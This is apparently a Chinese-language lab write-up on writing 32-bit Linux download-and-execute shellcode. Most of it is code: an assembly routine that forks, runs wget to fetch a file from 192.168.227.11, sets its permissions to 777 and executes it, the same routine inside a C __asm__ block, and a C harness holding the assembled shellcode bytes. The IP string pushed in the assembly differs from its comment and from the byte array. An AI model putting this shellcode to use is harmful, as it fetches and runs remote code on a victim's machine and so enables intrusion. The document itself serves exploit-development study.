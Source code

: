 ## shellcode_ download file_ linux_x86

### 一、实验环境

* ubuntu 14.04 x86

### 二、实验过程

* shellcode编程思路

        start
    	  execve wget file_x
    	  chmod +x file_x
    	  execve file_x
    	end


* 面临的问题
	* 当进程调用一种exec函数时,如果调用成功则加载新的程序从启动代码开始执行,该进程的用户空间代码和数据完全被新程序替换。调用成功时调用exec函数的程序不再返回,如果调用出错则返回-1。所以exec函数只有出错的返回值而没有成功的返回值。

* 解决方法
	* 使用fork&wait
		* fork()：创建子进程,在子进程中，fork函数返回0，在父进程中，fork返回新创建子进程的进程ID。我们可以通过fork返回的值来判断当前进程是子进程还是父进程。
		* wait():如果父进程的所有子进程都还在运行，调用wait将使父进程阻塞，子进程结束后获取子进程状态改变信息

* 解决后思路

    	start
    	  fork
    	  cmp
    	  if child goto child
    	  wait for child
    	  chmod +x file_x
    	  execve file_x
    	
    	  child:
    		execve wget file_x
    	end

* 汇编程序

        global _start
    	section .text
    	_start:
    	;fork
    	xor eax,eax ; eax寄存器清零
    	mov al,0x2 ; x86平台32位Linux系统调用号 #define __NR_fork  2
    	int 0x80 ;启动系统调用需要使用INT指令。linux系统调用位于中断0x80，执行INT指令时，所有操作转移到内核中的系统调用处理程序，完成后执行转移到INT指令之后的下一条指令。
    	xor ebx,ebx
    	cmp eax,ebx ;ZF=0
    	jz child ;jump if zero(ZF=0)
      
    	;wait(NULL)
    	xor eax,eax ; eax寄存器清零
    	mov al,0x7 ; #define __NR_waitpid 7
    	int 0x80
    		
    	;chmod x
    	xor ecx,ecx
    	xor eax, eax
    	push eax
    	mov al, 0xf ;#define __NR_chmod 15
    	push 0x78 ; x：下载文件名
    	mov ebx, esp
    	xor ecx, ecx
    	mov cx, 0x1ff ; 0x1ff换算为8进制为777，通过按位与运算计算权限。(参数）
    	int 0x80
    	
    	;exec x
    	xor eax, eax
    	push eax
    	push 0x78 ; x：下载文件名
    	mov ebx, esp
    	push eax
    	mov edx, esp
    	push ebx
    	mov ecx, esp
    	mov al, 11 ; #define __NR_execve 11
    	int 0x80
    	
    	child:
    
    	;download 192.168.227.11//x with wget
    	push 0xb ; #define __NR_execve 11
    	pop eax
    	cdq ;
		
    	push edx
    	push 0x782f2f32	;2//x avoid null byte
    	push 0x32322e32 ;2.22
    	push 0x2e383631 ;168.
    	push 0x2e323931 ;192.
    	mov ecx,esp 
		
    	push edx
    	push 0x74 ;t
    	push 0x6567772f ;egw/
    	push 0x6e69622f ;nib/
    	push 0x7273752f ;rsu/
    	mov ebx,esp 
		
    	push edx
    	push ecx
    	push ebx
    	mov ecx,esp
    	int 0x80
	

main()

{

    __asm__("

        global _start
    	section .text
    	_start:
    	;fork
    	xor eax,eax ; eax寄存器清零
    	mov al,0x2 ; x86平台32位Linux系统调用号 #define __NR_fork  2
    	int 0x80 ;启动系统调用需要使用INT指令。linux系统调用位于中断0x80，执行INT指令时，所有操作转移到内核中的系统调用处理程序，完成后执行转移到INT指令之后的下一条指令。
    	xor ebx,ebx
    	cmp eax,ebx ;ZF=0
    	jz child ;jump if zero(ZF=0)
      
    	;wait(NULL)
    	xor eax,eax ; eax寄存器清零
    	mov al,0x7 ; #define __NR_waitpid 7
    	int 0x80
    		
    	;chmod x
    	xor ecx,ecx
    	xor eax, eax
    	push eax
    	mov al, 0xf ;#define __NR_chmod 15
    	push 0x78 ; x：下载文件名
    	mov ebx, esp
    	xor ecx, ecx
    	mov cx, 0x1ff ; 0x1ff换算为8进制为777，通过按位与运算计算权限。(参数）
    	int 0x80
    	
    	;exec x
    	xor eax, eax
    	push eax
    	push 0x78 ; x：下载文件名
    	mov ebx, esp
    	push eax
    	mov edx, esp
    	push ebx
    	mov ecx, esp
    	mov al, 11 ; #define __NR_execve 11
    	int 0x80
    	
    	child:
    
    	;download 192.168.227.11//x with wget
    	push 0xb ; #define __NR_execve 11
    	pop eax
    	cdq ; 把EDX的所有位都设成EAX最高位的值
    	push edx
    	
    	push 0x782f2f32	;2//x avoid null byte
    	push 0x32322e32 ;2.22
    	push 0x2e383631 ;168.
    	push 0x2e323931 ;192.
    	mov ecx,esp ;保存堆栈指针X-16-8
    	push edx
    	
    	push 0x74 ;t
    	push 0x6567772f ;egw/
    	push 0x6e69622f ;nib/
    	push 0x7273752f ;rsu/
    	mov ebx,esp ；X-42-8
    	
		push edx
    	push ecx
    	push ebx
		
    	mov ecx,esp
    	int 0x80

     " );

}
* C语言程序

    	#include<stdio.h>
    	#include<string.h>
    	
    	unsigned char code[] = \
    	"\x31\xc0\xb0\x02\xcd\x80\x31\xdb\x39\xd8\x74\x2a\x31\xc0\xb0\x07\xcd\x80\x31\xc9\x31\xc0\x50\xb0\x0f\x6a\x78\x89\xe3\x31\xc9\x66\xb9\xff\x01\xcd\x80\x31\xc0\x50\x6a\x78\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80\x6a\x0b\x58\x99\x52\x68\x31\x31\x2f\x78\x68\x32\x32\x37\x2e\x68\x31\x36\x38\x2e\x68\x31\x39\x32\x2e\x89\xe1\x52\x6a\x74\x68\x2f\x77\x67\x65\x68\x2f\x62\x69\x6e\x68\x2f\x75\x73\x72\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80";
    	
    	main()
    	{
    		printf("Shellcode Length:  %d\n", strlen(code));
    		int (*ret)() = (int(*)())code;
    		ret();
    	}

### 四、参考资料

https://govolution.wordpress.com/2014/02/02/writing-a-download-and-exec-shellcode/